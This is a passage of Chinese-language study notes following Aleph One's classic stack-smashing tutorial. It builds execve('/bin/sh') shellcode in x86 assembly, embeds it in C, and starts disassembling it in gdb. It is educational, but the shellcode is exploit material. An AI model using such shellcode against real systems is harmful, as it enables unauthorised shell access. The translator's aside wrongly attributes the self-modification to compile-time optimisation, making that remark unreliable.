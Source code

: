 ```assembly
```

计算jmp和call之间的偏移量，call和popl之间的偏移量，字符串地址和数组的偏移量，以及字符串数组和空字符的偏移量

如下：

```assembly
jmp 0x26 				# 2 bytes
popl 	%esi 			# 1 byte 
movl 	%esi,0x8(%esi) 	# 3 bytes
movb 	$0x0,0x7(%esi) 	# 4 bytes
movl 	$0x0,0xc(%esi) 	# 7 bytes
movl 	$0xb,%eax 		# 5 bytes
movl 	%esi,%ebx		# 2 bytes
leal 	0x8(%esi),%ecx 	# 3 bytes
leal 	0xc(%esi),%edx	# 3 bytes
int		$0x80			# 2 bytes
movl 	$0x1, %eax 		# 5 bytes
movl 	$0x0, %ebx		# 5 bytes
int		$0x80			# 2 bytes
call 	-0x2b 			# 5 bytes
.string \"/bin/sh\"		# 8 bytes
            
```

看起来挺好的，确定这个能正常工作我们必须尝试去编译并运行他。但是这里有个问题，我们的代码会修改他自己(where? 个人认为是在编译阶段的优化)，但是大多的操作系统把代码段标记为read-only。为了绕过这个限制，我们必须将要执行的代码放在堆栈或数据段中，并将控制权转移给它。为此，我们将把代码放在数据段的全局数组中。我们首先需要二进制代码的十六进制表示。让我们先编译它，然后使用gdb获得它

```c
//shellcodeasm.c
void main(){ 
    __asm__(" 
            jmp	0x2a 					# 3 bytes
            popl %esi				 	# 1 byte
			movl %esi,0x8(%esi) 		# 3 bytes
            movb $0x0,0x7(%esi)			# 4 bytes
  			movl $0x0,0xc(%esi) 		# 7 bytes
            movl $0xb,%eax 				# 5 bytes
            movl %esi,%ebx				# 2 bytes
			leal 0x8(%esi),%ecx 		# 3 bytes
            leal 0xc(%esi),%edx			# 3 bytes
			int	$0x80					# 2 bytes
			movl $0x1, %eax 			# 5 bytes
            movl $0x0, %ebx				# 5 bytes
            int	$0x80					# 2 bytes
			call -0x2f 					# 5 bytes
            .string \"/bin/sh\"			# 8 bytes
            "); 
}
```



```assembly
[aleph1]$ gcc -o shellcodeasm -g -ggdb shellcodeasm.c 
[aleph1]$ gdb shellcodeasm GDB is free software and you are welcome to distribute copies of it under certain conditions; type "show copying" to see the conditions.
There is absolutely no warranty for GDB; type "show warranty" for details. GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc... 
(gdb) disassemble main Dump of assembler code for function main:
0x8000130 :pushl %ebp
0x8000131 :movl %esp,%ebp
0x8000133 :jmp	0x800015f
0x8000135 :popl %esi
0x8000136 :movl %esi,0x8(%esi)
0x8000139 :movb $0x0,0x7(%esi)
0x800013d :movl $0x0,0xc(%esi)
0x8000144 :movl $0xb,%eax
```